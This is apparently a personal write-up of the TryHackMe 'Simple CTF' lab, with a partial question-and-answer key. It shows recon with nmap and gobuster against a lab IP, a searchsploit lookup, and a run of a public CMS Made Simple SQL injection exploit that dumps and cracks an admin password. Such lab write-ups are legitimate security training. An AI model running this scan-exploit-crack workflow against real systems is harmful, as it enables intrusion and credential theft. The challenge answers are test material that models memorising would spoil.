 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


---
#### nmap scan:
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan:
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`

```
# Found directory:
10.10.90.196/simple
# Navigate to directory and found: " This site is powered by CMS Made Simple version 2.2.8 "
```



#### search for exploits involving that CMS:

`searchsploit cms made simple`

```
CMS Made Simple < 2.2.10 - SQL Injection                                                               | php/webapps/46635.py
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target:
`python2 exploit.py -u http://10.10.90.196/simple --crack -w /usr/share/wordlists/rockyou.txt`

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```


---
#### Key:


Q: How many services are running under port 1000?

2

Q: What is running on the higher port?

SSH


Q: What's the CVE you're using against the application?

Q: To what kind of vulnerability is the application vulnerable?

Q: What's the password?

Q: Where can you login with the details obtained?

Q: What's the user flag?

Q: Is there any other user in the home directory? 

Q: What's its name?

Q: What can you leverage to spawn a privileged shell?
